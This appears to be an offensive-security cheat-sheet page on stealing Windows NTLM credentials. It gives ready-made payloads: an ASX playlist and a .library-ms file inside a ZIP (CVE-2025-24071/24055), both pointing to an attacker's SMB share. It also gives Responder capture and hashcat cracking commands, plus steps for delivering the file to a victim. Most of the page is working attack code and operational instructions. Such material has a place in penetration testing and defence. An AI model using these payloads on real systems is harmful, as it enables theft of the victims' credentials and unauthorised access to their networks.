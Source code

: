 # Places to steal NTLM creds

**Check all the great ideas from [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) from the download of a microsoft word file online to the ntlm leaks source: https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/README.md and [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)**

### Windows Media Player playlists (.ASX/.WAX)

If you can get a target to open or preview a Windows Media Player playlist you control, you can leak Net‑NTLMv2 by pointing the entry to a UNC path. WMP will attempt to fetch the referenced media over SMB and will authenticate implicitly.

Example payload:

```xml
<asx version="3.0">
  <title>Leak</title>
  <entry>
    <title></title>
    <ref href="file://ATTACKER_IP\\share\\track.mp3" />
  </entry>
</asx>
```

Collection and cracking flow:

```bash
# Capture the authentication
sudo Responder -I <iface>

# Crack the captured NetNTLMv2
hashcat hashes.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

### ZIP-embedded .library-ms NTLM leak (CVE-2025-24071/24055)

Windows Explorer insecurely handles .library-ms files when they are opened directly from within a ZIP archive. If the library definition points to a remote UNC path (e.g., \\attacker\share), simply browsing/launching the .library-ms inside the ZIP causes Explorer to enumerate the UNC and emit NTLM authentication to the attacker. This yields a NetNTLMv2 that can be cracked offline or potentially relayed.

Minimal .library-ms pointing to an attacker UNC

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <version>6</version>
  <name>Company Documents</name>
  <isLibraryPinned>false</isLibraryPinned>
  <iconReference>shell32.dll,-235</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\10.10.14.2\share</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

Operational steps
- Create the .library-ms file with the XML above (set your IP/hostname).
- Zip it (on Windows: Send to → Compressed (zipped) folder) and deliver the ZIP to the target.
- Run an NTLM capture listener and wait for the victim to open the .library-ms from inside the ZIP.

## References
- [HTB Fluffy – ZIP .library‑ms auth leak (CVE‑2025‑24071/24055) → GenericWrite → AD CS ESC16 to DA (0xdf)](https://0xdf.gitlab.io/2025/09/20/htb-fluffy.html)
- [HTB: Media — WMP NTLM leak → NTFS junction to webroot RCE → FullPowers + GodPotato to SYSTEM](https://0xdf.gitlab.io/2025/09/04/htb-media.html)
- [Morphisec – 5 NTLM vulnerabilities: Unpatched privilege escalation threats in Microsoft](https://www.morphisec.com/blog/5-ntlm-vulnerabilities-unpatched-privilege-escalation-threats-in-microsoft/)

